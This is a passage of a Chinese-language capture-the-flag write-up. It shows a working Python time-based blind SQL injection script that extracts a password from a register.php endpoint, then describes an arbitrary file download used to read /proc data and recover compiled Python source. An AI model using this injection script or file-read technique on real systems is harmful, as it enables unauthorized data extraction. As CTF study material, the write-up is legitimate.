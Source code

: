 ```
import requests,time

url= "http://192.168.43.221:8080/"
string = "qwertyuiopasdfghjklzxcvbnm1234567890/"
def sql_inject():
	data = ""
	for y in range(70):
		for x in string:
			payload = url + f"register.php?password=1&username=admin' and if(mid((select qwbqwbqwbpass from qwbtttaaab111e limit 0,1),{y},1) in ('{x}'),!sleep(5),1) and '1"
			#payload = url + f"register.php?password=1&username=admin' and if(substr((SELECT digest_text FROM performance_schema.events_statements_summary_by_digest limit 1,1),{y},1) in ('{x}'),!sleep(3),1) and '1"
			start = time.time()
			#print(payload)
			a=requests.get(payload).text
			if("error" in a ):
				print("error")
			if(time.time()-start) > 3:
				data = data + x 
				print(data)
				break
```

#### 2. 任意文件下载

![image-20210705162636359](https://i.loli.net/2021/07/05/Lr6n8YokXbyjBAR.png)

现在第一个想法就是去下载flag，但是很可惜没有。结合提示pyc.

日常读取proc文件

![image-20210705163428162](https://i.loli.net/2021/07/05/qZF8gh7tSKRLpy6.png)

```
拿到了当前的目录
```

再看看当前环境

```
SHELL=/bin/bash
TERM=xterm
Use=MYSQL
....
```

这些信息在后面都有可能会用得到。

现在到这里 我们就应该思考怎么才能拿到源码，来看看还有没有什么没有公布漏洞。

```
__pycache__/app.cpython-{version}.pyc
```
